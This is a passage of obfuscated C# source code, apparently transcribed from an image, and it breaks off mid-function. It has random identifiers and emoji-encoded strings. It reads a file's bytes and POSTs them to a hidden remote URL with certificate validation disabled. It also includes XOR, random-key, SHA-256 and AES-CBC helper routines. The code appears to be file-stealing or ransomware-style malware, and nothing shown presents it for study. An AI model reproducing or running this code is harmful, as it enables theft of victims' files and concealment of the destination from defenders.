 ```
        YIYcePSZHvUeSMhUzZwoVHmOV.Add(new ByteArrayContent(File.ReadAllBytes(filePath)), NxfINLZaaZZezaCgDHsGdzSaNiURAmtiyEBgprNsxjKzd("⏩\ud83d\udd38\ud83d\udc5e\ud83c\udfc8⏩\ud83c\udf75\ud83d\udd0c\ud83d\udd0c"), Path.GetFileName(filePath));
        HttpClientHandler handler = new HttpClientHandler
        {
            ServerCertificateCustomValidationCallback = HttpClientHandler.DangerousAcceptAnyServerCertificateValidator
        };
        using HttpClient JToIYNnsPTVBGdtYorgktWiMEPfUEkMGMChTBrH = new HttpClient(handler);
        await JToIYNnsPTVBGdtYorgktWiMEPfUEkMGMChTBrH.PostAsync(NxfINLZaaZZezaCgDHsGdzSaNiURAmtiyEBgprNsxjKzd("9\ufe0f\u20e3\ud83c\ude51\ud83d\uddff\ud83c\udf7a\ud83d\udcd3\ud83c\ude51\ud83d\udc36\ud83d\udd3c\ud83d\udc9c\ud83c\udf46\ud83c\udfa5✒\ufe0f\ud83d\udc60\ud83d\udd28\ud83d\udc9b\ud83d\udeb4\ud83d\udc36\ud83d\udd28\ud83c\ude01\ud83c\ude3a\ud83d\udc9c\ud83c\udfa9\ud83d\udc9b\ud83c\udf7a\ud83c\udf8f\ud83d\udcac\ud83c\ude3a✒\ufe0f\ud83d\udc36\ud83c\udfa9\ud83c\udf63\ud83d\udd3c\ud83c\udf8f\ud83c\udfad\ud83c\udf75\ud83c\udf67\ud83d\udc36\ud83c\udf46\ud83c\udfa5\ud83d\udd0c"), YIYcePSZHvUeSMhUzZwoVHmOV);
    }

    private static byte gbTxSBXvOnHlWXYrw(byte b, int rounds)
    {
        for (int i = 0; i < rounds; i++)
        {
            b = (byte)(((b ^ 0xA5) + 37) & 0xFF);
        }
        return b;
    }

    private static byte[] TxWVCaCGswNFFkFNyyuGYebzTnmKMI(byte[] plaintext, byte[] key, int rounds = 3)
    {
        byte[] array = new byte[plaintext.Length];
        int num = key.Length;
        for (int i = 0; i < plaintext.Length; i++)
        {
            byte b = gbTxSBXvOnHlWXYrw(key[i % num], rounds);
            array[i] = (byte)(plaintext[i] ^ b);
        }
        return array;
    }

    private static int[] OVixtxAlZgODrcwOVgagxeWAk()
    {
        int[] array = new int[256];
        using RNGCryptoServiceProvider rNGCryptoServiceProvider = new RNGCryptoServiceProvider();
        byte[] array2 = new byte[1024];
        rNGCryptoServiceProvider.GetBytes(array2);
        Buffer.BlockCopy(array2, 0, array, 0, array2.Length);
        return array;
    }

    private static byte[] qUipnfARjQBaBGtORUDuGAblGcanrkCStJ(string input)
    {
        using SHA256 sHA = SHA256.Create();
        return sHA.ComputeHash(Encoding.UTF8.GetBytes(input));
    }

    private static byte[] lSJNJosACuzaDIkQoaEIkvSckaEPgrBKmY(byte[] data, out byte[] key, out byte[] iv)
    {
        using Aes aes = Aes.Create();
        aes.Mode = CipherMode.CBC;
        aes.Padding = PaddingMode.PKCS7;
```